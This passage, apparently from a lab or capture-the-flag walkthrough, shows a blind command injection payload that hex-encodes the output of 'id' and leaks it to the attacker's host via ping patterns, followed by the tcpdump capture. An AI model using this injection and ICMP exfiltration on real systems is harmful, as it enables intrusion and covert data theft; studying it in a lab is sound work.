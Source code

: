 I fired up tcpdump with the `-X` flag to show me the packet contents, and tested it out with the following payload for the `id` command:


```bash Ping pattern `id` command
;id| xxd -p -c 16 | while read line; do ping -p $line -c 1 -q 192.168.56.102; done
```

On the `tcpdump` side of things...

```bash Ping pattern tcpdump
root@kali:~/Desktop# tcpdump icmp -X
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 65535 bytes
09:18:14.439222 IP 192.168.56.104 > 192.168.56.102: ICMP echo request, id 6920, seq 1, length 64
    0x0000:  4500 0054 0000 4000 4001 488a c0a8 3868  E..T..@.@.H...8h
    0x0010:  c0a8 3866 0800 4b5b 1b08 0001 56a3 1a54  ..8f..K[....V..T
    0x0020:  f357 0a00 6e67 696e 7829 2067 7569 643d  .W..nginx).guid=
    0x0030:  3439 3828 6e67 696e 7829 2067 7569 643d  498(nginx).guid=
    0x0040:  3439 3828 6e67 696e 7829 2067 7569 643d  498(nginx).guid=
    0x0050:  3439 3828                                498(
09:18:14.439248 IP 192.168.56.102 > 192.168.56.104: ICMP echo reply, id 6920, seq 1, length 64
    0x0000:  4500 0054 a049 0000 4001 e840 c0a8 3866  E..T.I..@..@..8f
    0x0010:  c0a8 3868 0000 535b 1b08 0001 56a3 1a54  ..8h..S[....V..T
    0x0020:  f357 0a00 6e67 696e 7829 2067 7569 643d  .W..nginx).guid=
    0x0030:  3439 3828 6e67 696e 7829 2067 7569 643d  498(nginx).guid=
    0x0040:  3439 3828 6e67 696e 7829 2067 7569 643d  498(nginx).guid=
    0x0050:  3439 3828                                498(
09:18:14.440365 IP 192.168.56.104 > 192.168.56.102: ICMP echo request, id 7176, seq 1, length 64
    0x0000:  4500 0054 0000 4000 4001 488a c0a8 3868  E..T..@.@.H...8h
    0x0010:  c0a8 3866 0800 318a 1c08 0001 56a3 1a54  ..8f..1.....V..T
    0x0020:  e35a 0a00 6769 6e78 2920 6772 6964 3d34  .Z..ginx).grid=4
    0x0030:  3938 286e 6769 6e78 2920 6772 6964 3d34  98(nginx).grid=4
    0x0040:  3938 286e 6769 6e78 2920 6772 6964 3d34  98(nginx).grid=4
    0x0050:  3938 286e                                98(n
09:18:14.440382 IP 192.168.56.102 > 192.168.56.104: ICMP echo reply, id 7176, seq 1, length 64
    0x0000:  4500 0054 a04a 0000 4001 e83f c0a8 3866  E..T.J..@..?..8f
    0x0010:  c0a8 3868 0000 398a 1c08 0001 56a3 1a54  ..8h..9.....V..T
    0x0020:  e35a 0a00 6769 6e78 2920 6772 6964 3d34  .Z..ginx).grid=4
    0x0030:  3938 286e 6769 6e78 2920 6772 6964 3d34  98(nginx).grid=4
    0x0040:  3938 286e 6769 6e78 2920 6772 6964 3d34  98(nginx).grid=4
    0x0050:  3938 286e                                98(n
09:18:14.441191 IP 192.168.56.104 > 192.168.56.102: ICMP echo request, id 7432, seq 1, length 64
    0x0000:  4500 0054 0000 4000 4001 488a c0a8 3868  E..T..@.@.H...8h
    0x0010:  c0a8 3866 0800 ed92 1d08 0001 56a3 1a54  ..8f........V..T
    0x0020:  f95d 0a00 286e 6769 6e78 290a 6f75 7073  .]..(nginx).oups
    0x0030:  3d34 3938 286e 6769 6e78 290a 6f75 7073  =498(nginx).oups
    0x0040:  3d34 3938 286e 6769 6e78 290a 6f75 7073  =498(nginx).oups
    0x0050:  3d34 3938                                =498
09:18:14.441198 IP 192.168.56.102 > 192.168.56.104: ICMP echo reply, id 7432, seq 1, length 64
    0x0000:  4500 0054 a04b 0000 4001 e83e c0a8 3866  E..T.K..@..>..8f
    0x0010:  c0a8 3868 0000 f592 1d08 0001 56a3 1a54  ..8h........V..T
    0x0020:  f95d 0a00 286e 6769 6e78 290a 6f75 7073  .]..(nginx).oups
    0x0030:  3d34 3938 286e 6769 6e78 290a 6f75 7073  =498(nginx).oups
    0x0040:  3d34 3938 286e 6769 6e78 290a 6f75 7073  =498(nginx).oups
    0x0050:  3d34 3938                                =498
```
